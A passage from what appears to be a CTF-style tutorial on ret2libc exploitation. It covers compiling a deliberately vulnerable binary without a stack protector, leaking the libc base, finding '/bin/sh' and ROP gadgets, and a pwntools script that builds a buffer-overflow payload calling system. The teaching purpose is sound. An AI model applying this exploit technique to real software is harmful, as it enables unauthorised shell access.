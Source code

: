 ```c
}
```

Compile the code using the following commands:

```bash
gcc chal.c -o chal -fno-stack-protector
```

If we use the `ldd` command then we can see which `libc` library are we using for dynamic linking. Let us copy the `libc` that the challenge is compiled with in the current directory for our convinience. In case of CTF challenges the `libc` will be provided and you can use the tool <a href= "https://github.com/NixOS/patchelf">patchelf</a>.

<img src="https://raw.githubusercontent.com/manasghandat/manasghandat.github.io/master/assets/img/Images/Intro_to_pwn_4/2.png" alt="ldd">

Afterwards we will use the prior knowledge of buffer overflow to get control of `rip` register. Using the leak that is provided to us, we can find out the base address of the `libc`. To find the base address, we need to find the offset of `puts` function and then we need to subtract that offset from the leak. This can be implemented as follows.

Let us confirm the base that if the base we have found is corect or not. We can again use the `vmmap` command to confirm the leak.

<img src="https://raw.githubusercontent.com/manasghandat/manasghandat.github.io/master/assets/img/Images/Intro_to_pwn_4/3.png" alt="libc leak">

As we can see we have got the leak, so we can continue with the exploitation. In order to spawn the shell we can call `system(/bin/sh)`. To do this we need to set the `rip` to point to system in `libc`. That would be easy since we have the `libc` base and thus we can now find any function inside of the libc using the offset. Next we need to provide a pointer to the string `/bin/sh` in the `rdi` register. Such pointers are present inside of the `libc` itself. We can find the offset to these pointers using the `grep` command or we can search it inside of `libc` using python. This can be done as follows.

```py
libc = ELF("./libc.so.6",checksec=False)
next(libc.search(b"/bin/sh\x00"))
```
In this case we dont have the `rdi` gadget inside of our binary. Thus we need to use the gadgets of `libc` in order exploit the program. We can dump the rop-gadgets and then add the `libc` base address to get the actual gadget. 

Thus we will get the shell. The exploit to the above challenge is as follows:

```py
from pwn import *

elf = context.binary = ELF("./kek",checksec=False)
p = elf.process()

libc = ELF("./libc.so.6",checksec=False)

gdb.attach(p,'''
    init-gef
''')

p.recvuntil(": ")
x = int(p.recvline()[:-1],16)
print(x)
libc.address = x - libc.sym.puts
log.critical(f"[+] libc base: {hex(libc.address)}")

binsh = next(libc.search(b"/bin/sh\x00"))

rdi = libc.address + 0x000000000002a3e5
ret = libc.address + 0x0000000000029cd6

payload = b"a"*40 + p64(rdi) + p64(binsh) + p64(ret) + p64(libc.sym.system)
```